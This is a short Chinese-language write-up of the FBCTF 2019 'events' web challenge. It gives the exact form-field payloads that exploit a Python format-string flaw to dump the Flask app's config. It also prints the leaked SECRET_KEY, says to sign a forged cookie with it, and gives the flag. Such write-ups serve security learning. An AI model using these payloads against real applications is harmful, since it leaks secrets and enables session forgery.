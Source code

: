 # events

這題其實一開始我們方向全錯

一直往cookie去踹

但後來我從`asd:asd`這個帳號發現有人成功利用 python format string 漏洞撈到東西

一開始還以為是有人故意放假的 Response 混淆大家

結果發現重新整理，address 也會跟著變，才知道是真的，差點笑死

![](https://github.com/w181496/CTF/blob/master/fbctf2019/events/asd.png)

所以後來我才開始踹 format string

然後發現漏洞在: `event_name=a&event_address=a&event_important=__dict__`

而 config 在: `event_name=a&event_address=a&event_important=__class__.__init__.__globals__[app].config`

會噴 `SECRET_KEY`: `fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y`

用這把 key 去簽 cookie 就行了

`fb{e@t_aLL_th0s3_c0oKie5}`
